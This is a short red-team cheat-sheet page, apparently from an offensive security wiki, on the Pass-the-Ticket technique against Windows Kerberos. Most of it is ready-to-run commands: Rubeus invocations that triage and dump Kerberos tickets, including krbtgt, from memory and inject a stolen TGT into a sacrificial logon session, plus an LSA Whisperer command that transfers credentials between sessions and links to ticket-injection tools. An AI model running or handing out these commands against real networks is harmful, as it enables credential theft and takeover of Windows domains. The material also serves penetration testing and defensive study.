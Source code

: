 # Pass-the-Ticket




## Rubeus

Show Kerberos tickets in all logon sessions if elevated (otherwise it will only show tickets in current logon session):

```
PS > .\Rubeus.exe triage | findstr krbtgt | findstr admin
```

Extract the tickets from memory:

```
PS > .\Rubeus.exe dump [/service:krbtgt] [/luid:0x1337] /nowrap
```

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) and import the TGT into its logon session:

```
PS > .\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
PS > .\Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
```

{% hint style="info" %}
If operating Rubeus from a C2 agent, you can [steal_token](/redteam/cobalt-strike.md#pass-the-ticket) instead of using `/show` option.
{% endhint %}

{% hint style="success" %}
You can also extract and reuse TGS tickets with this technique.
{% endhint %}




## LSA Whisperer

- [https://github.com/EvanMcBroom/lsa-whisperer/releases/tag/latest](https://github.com/EvanMcBroom/lsa-whisperer/releases/tag/latest)

```
lsa> kerberos TransferCredentials --sluid <SRC_LUID> --dluid <DST_LUID>
```




## Manual Tickets Injection

- [https://github.com/OtterHacker/Cerbere](https://github.com/OtterHacker/Cerbere)
- [https://xakep.ru/2023/04/04/no-mimikatz/](https://xakep.ru/2023/04/04/no-mimikatz/)
- [https://github.com/MzHmO/articles/tree/main/Ticket%20Injector](https://github.com/MzHmO/articles/tree/main/Ticket%20Injector)
- [https://github.com/MzHmO/PowershellKerberos](https://github.com/MzHmO/PowershellKerberos)
